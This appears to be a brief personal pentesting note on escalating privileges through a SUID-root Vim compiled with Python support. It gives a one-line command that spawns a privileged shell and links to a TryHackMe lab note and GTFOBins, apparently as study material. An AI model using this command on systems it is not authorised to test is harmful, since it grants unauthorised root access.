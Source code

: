 # Exploiting ViM

author:: Nathan Acks  
date:: 2021-11-04

If ViM is SUID root *and* is compiled with Python support, it can be used for privilege escalation.

```bash
vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

NOTE: Use `:py` instead if only Python 2 is available.

* [Basic Pentesting](tryhackme-basic-pentesting.md)
* [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)
